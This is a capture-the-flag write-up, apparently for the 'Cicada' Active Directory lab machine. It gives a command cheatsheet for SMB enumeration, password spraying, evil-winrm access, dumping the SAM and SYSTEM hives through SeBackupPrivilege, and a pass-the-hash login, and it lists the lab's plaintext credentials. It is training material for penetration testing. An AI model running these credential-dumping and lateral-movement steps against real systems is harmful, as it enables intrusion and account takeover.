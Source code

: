 # Cicada \[Windows AD Easy]

## Report

An SMB share reveals a default password that when enumerated using lookupsid.py shows a user 'michael.wrightson'. This user has access to rpcclient where credentials for another user 'david.orelious'. This user has access to an SMB share 'Dev' where credentials for 'emily.oscars' are found.

This user has Winrm access and has the SebackupPrivelege which is used to retrieve hashes for admin.

## Cheatsheet

```
10.10.11.35

./lookupsid.py guest@10.10.11.35 -no-pass
nxc smb 10.10.11.35 -u userlist.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'

rpcclient -U 'michael.wrightson'  10.10.11.35

smbclient --user david.orelious //10.10.11.35/DEV

evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
whoami /privs /groups
SeBackupPrivilege
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

cd Temp
download sam
download system
pypykatz registry --sam sam system
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'

```

## Loot

### Creds

```
Cicada$M6Corpb*@Lp#nZp!8 : Common password from SMB
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
david.orelious:aRt$Lp#7t*VQ!3
emily.oscars:Q!3@Lp#M6b*7t*Vt [SMB/DEV]

```

### Proof

Backup Privelege - User bypasses all UAC to read and backup files, this privelege is abused to recover the SAM and SYSTEM registry files which has NTLM hashes of all users.

